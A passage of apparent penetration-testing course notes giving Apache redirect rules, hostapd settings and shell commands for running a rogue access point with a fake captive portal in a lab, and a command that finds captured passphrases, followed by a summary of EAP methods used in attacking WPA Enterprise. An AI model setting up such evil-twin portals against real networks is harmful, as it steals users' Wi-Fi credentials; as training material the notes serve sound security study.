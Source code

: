```
  # Android
  RedirectMatch 302 /generate_204 https://192.168.87.1/portal/index.php

  # Windows 7 and 10
  RedirectMatch 302 /ncsi.txt https://192.168.87.1/portal/index.php
  RedirectMatch 302 /connecttest.txt https://192.168.87.1/portal/index.php

  # Catch-all rule to redirect other possible attempts
  RewriteCond %{REQUEST_URI} !^/portal/ [NC]
  RewriteRule ^(.*)$ https://192.168.87.1/portal/index.php [L]

  # Use existing snakeoil certificates
  SSLCertificateFile /etc/ssl/certs/ssl-cert-snakeoil.pem
  SSLCertificateKeyFile /etc/ssl/private/ssl-cert-snakeoil.key
</VirtualHost>
```
Enabling mod_ssl and restart Apache
```
sudo a2enmod ssl
sudo systemctl restart apache2
```

## Setting Up and Running the Rogue AP
Rogue AP hostapd configuration (sudo hostapd -B mco-hostapd.conf)
```
interface=wlan0
ssid=MegaCorp One Lab
channel=11

# 802.11n
hw_mode=g
ieee80211n=1

# Uncomment the following lines to use OWE instead of an open network
#wpa=2
#ieee80211w=2
#wpa_key_mgmt=OWE
#rsn_pairwise=CCMP
```

Running hostapd
```
sudo hostapd -B mco-hostapd.conf
sudo tail -f /var/log/syslog | grep -E '(dnsmasq|hostapd)'

sudo tail -f /var/log/apache2/access.log
sudo find /tmp/ -iname passphrase.txt
```

# Attacking WPA Enterprise 
WPA Enterprise uses Extensible Authentication Protocol (EAP)
EAP authentication methods:
- EAP Transport Layer Security (EAP-TLS) => certificates on the server side and client side
- EAP Tunneled Transport Layer Security (EAP-TTLS) => does not necessarily need client certificates. Creates a tunnel and then exchanges the credentials using Challenge-Handshake Authentication Protocol (CHAP), Authentication Protocol (PAP), Microsoft CHAP (MS-CHAP), or MS-CHAPv2.
- Protected Extensible Authentication Protocol (PEAP) => creates a TLS tunnel before credentials are exchanged using MS-CHAPv2 (common method).
